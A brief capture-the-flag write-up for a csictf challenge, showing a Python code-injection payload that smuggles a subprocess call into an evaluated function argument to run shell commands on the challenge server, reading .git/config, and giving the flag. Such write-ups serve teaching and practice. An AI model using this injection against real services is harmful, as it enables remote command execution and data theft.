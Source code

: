 **Challenge:** nc chall.csivit.com 30419

Code injection payload: `shift_cipher_key(__import__("subprocess").getoutput("<COMMAND HERE>"), 0)`

I created a simple python script to interact better with shell: `python shell.py`

Getting the Github repository URL (".git/config"): `shift_cipher_key(__import__("subprocess").getoutput("cat .git/config"), 0)`
- URL: https://github.com/alias-rahil/crypto-cli

Loot at the commits: https://github.com/alias-rahil/crypto-cli/commit/293a96b5311e825bed1853dfe94d686128ec87f0

**Flag**: csictf{2077m4y32_h45_35c4p3d}
